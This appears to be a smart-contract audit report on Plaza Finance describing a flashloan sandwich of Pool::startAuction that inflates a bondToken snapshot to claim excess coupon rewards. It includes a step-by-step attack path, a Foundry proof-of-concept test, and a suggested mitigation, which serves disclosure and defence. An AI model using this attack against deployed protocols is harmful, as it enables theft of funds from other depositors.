 Dry Cherry Goose

High

# Flashloan attack allows attacker to sandwich `pool::startAuction` to earn an unfair amount of shares

### Summary

An attacker can flashloan a huge amount of `reserveToken`, sandwich `pool::startAuction` to create `bondToken` before starting the auction and redeem `bondToken` after to manipulate their shares for higher rewards as `pool::startAuction` takes a snapshot of users shares.

### Explanation

The protocol records the amount of `couponToken` a user has earned by reading the amount of `bondToken` this user owns at the beginning of each period (to be exact, this amount is calculated and recorded [before the first `bondToken` transfer](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/BondToken.sol#L154-L164) they make on each period. It can also be calculated in the distributor if a user calls `claim()` without having made a token transfer in this period).

This value is used in the function [`Distributor::claim`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Distributor.sol#L88) to calculate the amount of `couponToken` a user is owed. 

Any overcalculation of this value is critical since it will allow users to receive more rewards than they should.

### Root Cause

Users can sandwich [`pool::startAuction`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L530) in order to manipulate their coupon share as it creates a new period

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

1 - Attacker inflates its shares

>_To do so, the attacker proceeds as follow :_

1.1 - Attacker flashloans `reserveToken`

1.2 - Attacker calls `Pool::create` to mint himself an amount of `bondToken`

1.3 - Attacker calls `Pool::startAuction` to create an auction, and more importantly a snapshot of its `bondToken` balance. Since the attacker minted a huge amount before, the protocol will save this value at the next `bondToken` transfer involving this account

1.4 - Attacker sells its `bondToken` through `Pool::redeem` to pay back their flashloan

> _The attacker has two different attack path from this point. Path 2.1 is the cheapest for the attacker, while path 2.2 may yield more rewards to them but is more costly_

2.1 - Attacker waits for the auction to succeed in order for the Distributor to receive the `couponToken` calculated after step 1.3. Then, the attacker can call `Distributor::claim` to earn all couponTokens in the distributor

2.2 - If the value of reserve tokens that can be won from the auction are greater than the value of `Auction::totalBuyCouponAmount`, and if the attacker has enough `couponToken`, then the attacker can instead of 2.1 choose to bid all their `couponToken` into the maximum amount they can claim from the auction. He will earn a greater amount of value, but needs to hold `couponToken` to do so. In case other users bid at a prefered rate, the worst case scenario for the attacker is to see its own bid being replaced. The attacker will earn back his bidded `couponToken` and still be able to profit as much as the 2.1 attack path. If no one else replaces the attackers bid, then `distributor::claim` will pay back the attacker for his attack, and he will make a profit from the `reserveToken` taken from the auction.


### Impact

Attacker can manipulate their shares into earning more tokens than they should

### PoC

> Note that while this report states that the attacker has 2 possible attack paths after the first point, the following PoC only shows the steps for an attacker to manipulate their coupon share (the rest of the attack would require them to claim like a normal user).

Copy the test function in `test/Pool.t.sol`.

```solidity
// forge test --mt test_sandwich_start_auction_to_get_distribution -vvv
function test_sandwich_start_auction_to_get_distribution() public {
    vm.startPrank(governance);
    Token rToken = Token(params.reserveToken);

    // Mint reserve tokens
    rToken.mint(governance, 10000001000);
    rToken.approve(address(poolFactory), 10000000000);

    // Create pool
    Pool _pool = Pool(poolFactory.createPool(params, 10000000000, 10000, 10000, "", "", "", "", false));
    _pool.setAuctionPeriod(10 days);
    vm.stopPrank();

    // Waits until `startAuction` is callable
    vm.warp(block.timestamp + params.distributionPeriod + 1);

    // alice prepares to sandwich.
    // Step 1 - She takes a flashloan (simulated here by minting/burning reserve tokens)
    address alice = makeAddr("alice");
    vm.startPrank(alice);
    uint256 flashLoanAmount = 1_000 ether;

    rToken.mint(alice, flashLoanAmount);
    rToken.approve(address(_pool), flashLoanAmount);

    // Step 2 - Alice creates a lot of bondToken
    _pool.create(Pool.TokenType.BOND, flashLoanAmount, 0);
    uint256 aliceBondToken = _pool.bondToken().balanceOf(alice);
    console.log("aliceBondToken", aliceBondToken);

    // Step 3 - Alice creates an auction. This increases the currentPeriod (checkpoints users bondToken amount)
    _pool.startAuction();

    // Step 4 - Alice redeems her tokens, paying back the flashLoan
    _pool.redeem(Pool.TokenType.BOND, aliceBondToken, 0);
    rToken.burn(alice, flashLoanAmount);

    (uint256 currentPeriod,) = _pool.bondToken().globalPool();

    // Alice now has a high indexedUserAmount, meaning she will claim a high amount of tokens from the distributor
    uint256 aliceBalance = _pool.bondToken().balanceOf(alice);
    uint256 aliceShares = _pool.bondToken().getIndexedUserAmount(alice, aliceBalance, currentPeriod);
    assertEq(1.5 * 1e36, aliceShares);
}
```

### Mitigation

Implement a protection to the sandwich attack of the increase of a period. 

This can be done by preventing a transaction from executing when a transfer of `bondToken` occurs in the same block the function `bondToken::increaseIndexedAssetPeriod` (creating a new period, allowing a new checkpoint) is called.
